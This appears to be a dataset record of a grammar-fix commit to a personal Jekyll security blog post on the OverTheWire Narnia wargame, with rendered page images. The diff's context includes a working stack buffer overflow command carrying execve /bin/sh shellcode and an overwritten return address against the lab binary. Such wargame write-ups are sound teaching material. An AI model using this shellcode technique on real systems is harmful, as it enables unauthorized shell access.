

Before and after one commit to W3ndige/rootnetsec.github.io, a Jekyll site: the page built from _posts/2017-03-09-overthewire.org-narnia-5.markdown, in a window 1280 px wide and 900 px high, scrolled down 1950 px. Shown: the part 153-494 px from the top of the window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; comment, search, counter and statistics services are not loaded.

Commit message:
Gramatical errors

```diff
--- a/_posts/2017-03-09-overthewire.org-narnia-5.markdown
+++ b/_posts/2017-03-09-overthewire.org-narnia-5.markdown
@@ -75,9 +75,9 @@ Program received signal SIGSEGV, Segmentation fault.
 0xffffd8e0: 0x00000000  0x00000000  0x00000000  0x00000000
 {% endhighlight %}
 
-<p>From this we know that I have somewhere around 272 bytes for the shellcode with some additional bytes that will overwrite the return address. Now we can construct the command, using code from the previous levels. </p>
+<p>From this we know that we have somewhere around 272 bytes for the shellcode with some additional bytes that will overwrite the return address. Now we can construct the command, using code from the previous levels. </p>
 
-<p>As we know already that our payload is 25 bytes in size, we will have to firstly write 247 "A" letters, then 25 bytes of shellcode and lastly overwriting the <b>EIP register</b>, which then will be placed somewhere in the middle of "A" letters. By looking at the debug of the memory, I'm going to choose it as <b>0xffffd850</b>.  </p>
+<p>As we already know that our payload is 25 bytes in size, we will have to: firstly write 247 "A" letters, then 25 bytes of shellcode and lastly overwriting the <b>EIP register</b>, which then will be placed somewhere in the middle of "A" letters. By looking at the debug of the memory, I'm going to choose it as <b>0xffffd850</b>.  </p>
 
 {% highlight bash %}
 narnia4@melinda:/narnia$ ./narnia4 $(python -c'print "A" * 247 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x50\xd8\xff\xff"')
```
